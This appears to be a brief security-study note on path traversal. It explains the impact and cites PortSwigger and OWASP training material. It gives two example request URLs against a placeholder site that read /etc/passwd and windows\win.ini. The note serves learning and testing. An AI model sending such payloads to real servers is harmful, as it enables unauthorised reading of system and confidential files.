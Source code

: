 # Path Traversal

## Description

This vulnerability allows an attacker to read arbitrary files on the server hosting the application.

This type of vulnerability can lead to several impacts: 
- Reading confidential data on the system (source code, identification information, personal information)
- Modification of file integrity (example: modify the application code to change its behavior)

## Methods

### Reading arbitrary files via path traversal

Linux : 
```
https://insecure-website.com/loadImage?filename=../../../etc/passwd
```

Windows : 
```
https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini
```
## Inspired by

- [Portswigger Web Security Academy - Server Side vulnerabilities apprentice](https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice)
- [OWASP WSTG - Testing_Directory_Traversal_File_Include](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/01-Testing_Directory_Traversal_File_Include)

## Tools

- [Burp Suite community](https://portswigger.net/burp/communitydownload)